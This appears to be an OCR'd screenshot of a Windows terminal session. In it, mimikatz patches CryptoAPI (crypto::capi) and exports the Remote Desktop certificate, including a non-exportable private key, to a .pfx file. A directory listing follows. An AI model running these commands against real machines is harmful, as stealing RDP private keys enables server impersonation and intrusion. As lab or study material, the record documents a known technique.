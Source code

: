 ```
 * Process Token : {0;0002bbfa} 2 D 25564822  	INTERN-PC\Administrator	S-1-5-21-1966530601-3185510712-10604624-500	(14g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 25609341  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz(commandline) # crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
 * System Store  : 'LOCAL_MACHINE' (0x00020000)
 * Store         : 'Remote Desktop'

 0. INTERN-PC
    Subject  : CN=INTERN-PC
    Issuer   : CN=INTERN-PC
    Serial   : ffb1d93a1df0324cadd5e13f3f9f1b51
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 11/22/2023 9:18:19 PM -> 5/23/2024 9:18:19 PM
    Hash SHA1: a0168513fd57577ecc0204f01441a3bd5401ada7
	Key Container  : TSSecKeySet1
	Provider       : Microsoft Enhanced Cryptographic Provider v1.0
	Provider type  : RSA_FULL (1)
	Type           : AT_KEYEXCHANGE (0x00000001)
	|Provider name : Microsoft Enhanced Cryptographic Provider v1.0
	|Key Container : TSSecKeySet1
	|Unique name   : f686aace6942fb7f7ceb231212eef4a4_c5d2b969-b61a-4159-8f78-6391a1c805db
	|Implementation: CRYPT_IMPL_SOFTWARE ; 
	Algorithm      : CALG_RSA_KEYX
	Key size       : 2048 (0x00000800)
	Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
	Exportable key : NO
	Public export  : OK - 'LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.der'
	Private export : OK - 'LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx'

mimikatz(commandline) # exit
Bye!
PS C:\Users\Administrator> dir

    Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
d-----       11/23/2023   9:47 PM                .ssh                                             
d-r---        3/17/2021   3:13 PM                3D Objects                                       
d-r---        3/17/2021   3:13 PM                Contacts                                         
d-r---       11/25/2023   2:12 PM                Desktop                                          
d-r---        3/17/2021   3:13 PM                Documents                                        
d-r---       11/24/2023  10:53 PM                Downloads                                        
d-r---        3/17/2021   3:13 PM                Favorites                                        
d-r---        3/17/2021   3:13 PM                Links                                            
d-----       11/25/2023   2:56 PM                mimi                                             
d-r---        3/17/2021   3:13 PM                Music                                            
d-r---       11/24/2023  10:44 PM                Pictures                                         
d-r---        3/17/2021   3:13 PM                Saved Games                                      
d-r---        3/17/2021   3:13 PM                Searches                                         
d-r---        3/17/2021   3:13 PM                Videos                                           
-a----       11/25/2023   2:56 PM            730 LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.der     
-a----       11/25/2023   2:56 PM           2493 LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx     
-a----       11/25/2023   2:56 PM        1206166 mimi.zip                                         
-a----        9/19/2022   4:44 PM        1355264 mimikatz.exe                                     
```